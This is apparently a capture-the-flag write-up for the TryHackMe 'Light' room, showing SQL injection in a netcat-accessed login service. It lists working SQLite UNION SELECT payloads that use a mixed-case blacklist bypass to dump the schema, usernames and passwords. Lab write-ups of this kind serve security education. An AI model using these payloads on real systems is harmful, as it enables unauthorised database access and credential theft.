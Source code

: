 # 💡 TryHackMe: Light – SQL Injection Writeup

[![TryHackMe Room](https://img.shields.io/badge/TryHackMe-LightRoom-red?logo=tryhackme&style=flat-square)](https://tryhackme.com/room/lightroom)
[![Solved](https://img.shields.io/badge/Solved%20By-Jull3Hax0r-brightgreen?style=flat-square&logo=gnu-bash)](https://tryhackme.com/p/Jull3Hax0r)

> **Category:** Databases / SQLi  
> **Difficulty:** Beginner → Intermediate  
> **Target IP:** `MACHINE_IP`  
> **Port:** `1337`  
> **Protocol:** Custom TCP (textbaserad tjänst)

---

## 🧠 Challenge Description

> I am working on a database application called Light! Would you like to try it out?  
> If so, the application is running on **port 1337**. You can connect to it using:  
> `nc MACHINE_IP 1337`  
> You can use the username `smokey` in order to get started.  
>  
> **Note:** Please allow the service 2 - 3 minutes to fully start before connecting to it.

---

## 📝 Questions

1. ❓ What is the admin username?  
2. ❓ What is the password to the username mentioned in question 1?  
3. 🏁 What is the flag?

---

## ⚙️ Initial Access

We connect using netcat:

```bash
nc 10.10.216.90 1337
```

Entering `smokey` as the username results in the application auto-filling a password and looping the login.

![Login prompt](https://jull3.se/thm/writeup/nc_login.png?cachebust=20240513)

No output or shell is returned, so we suspect some form of **SQL injection** might be possible via the username prompt.

---

## 💉 SQL Injection Discovery

We test a basic `'` payload and receive an error indicating broken syntax.  
By carefully experimenting with **case-bypassed UNION SELECT** payloads (to avoid keyword blacklists), we find working SQLi vectors.

Eventually, we identify that payloads like the following yield valid responses:

### 🔎 Payloads Used:

```sql
' UniOn SeLeCt sqlite_version() '
' UniOn SeLeCt group_concat(sql) FROM sqlite_master '
' UniOn SeLeCt group_concat(username) FROM usertable '
' UniOn SeLeCt group_concat(password) FROM usertable '
' UniOn SeLeCt group_concat(username) FROM admintable '
' UniOn SeLeCt group_concat(password) FROM admintable '
```

We automate this process using a Python script (`sqli.py` in this repo).

### 🖼️ SQLi Output Sample:

![SQLi Payload Output](https://jull3.se/thm/writeup/sqli.png)

---

## ✅ Answers

| Question | Answer |
|----------|--------|
| **Admin username** | `XXXXXXXXXXX` |
| **Admin password** | `maXXXXXXXXXXXXXX` |
| **Flag**           | `THM{SQLXXXXXXXXXXX}` |

---

## 🧠 Notes

- Backend DBMS: **SQLite 3.31.1**
- Application logic: `SELECT * FROM users WHERE username = '{input}' LIMIT 30;`
- Vulnerable input: **username prompt**
- Blacklist bypass: mixed-case `UniOn SeLeCt`
- Comment symbols like `--`, `#` were **filtered**, so `' ... '` was used to close queries cleanly

---

## 📜 Script (optional)

We used a Python socket script (`sqli.py`) to automate sending payloads and capturing responses.

---

🧠 Happy hacking,  
🧢 [Jull3Hax0r](https://jull3.se)
